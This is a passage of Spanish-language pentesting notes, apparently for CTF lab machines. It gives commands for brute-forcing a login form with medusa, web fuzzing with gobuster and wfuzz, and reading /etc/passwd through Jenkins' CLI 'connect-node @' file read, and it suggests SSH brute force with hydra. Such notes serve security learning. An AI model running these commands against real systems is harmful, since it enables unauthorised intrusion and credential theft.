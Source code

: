 
con medusa:

medusa -h 172.17.0.2 -U usuarios.txt -P contraseñas.txt -M web-form -m FORM:/login.php -m FORM-DATA:"username=&password=" -m DENY:"Nombre de usuario o contraseña incorrectos."


Los parámetros de username y password debemos verlo directamente del formulario haciendo ctrl + u y verificar que parámetros son.

-------------------------------------------------------------------------------

## 3.- Rutas para fuzzing web con gobuster

gobuster dir -t 200 -u http://172.17.0.1/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

quitamos el -r para ver redirecciones, es importante, ver máquina elevator

/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

a veces hay error al hacer gobuster y una de las razón es porque el servidor web bloquea el user-agent

Aplicamos el siguiente comando para confirmar 

curl -s 192.168.42.151

si me sale el error 403, está bloqueando el user-agent

curl -s 192.168.42.151 -A jorgas

entonces lanzamos el siguiente comando para encontrar directorios:

wfuzz -c -t 200 --hc=404 -H "User-Agent: jorgas" -w /usr/share/seclists/Discovery/Web-Content/common.txt http://192.168.42.151/FUZZ

-------------------------------------------------------------------------------

## 4.-JENKINS

a.- Si hacemos gobuster a un servidor donde corre jenkins y encontrasmos

/cli (Status 200)

 hacemos lo siguiente:

a..1.- wget http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar

a.2.- Buscamos usuarios:

java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"

si está corriendo ssh, podemos hacer un ataque de fuerza bruta con hydra, o realizar otras técnicas.


b.- Jetty (10.0.13)

podemos entrar al directorio /script
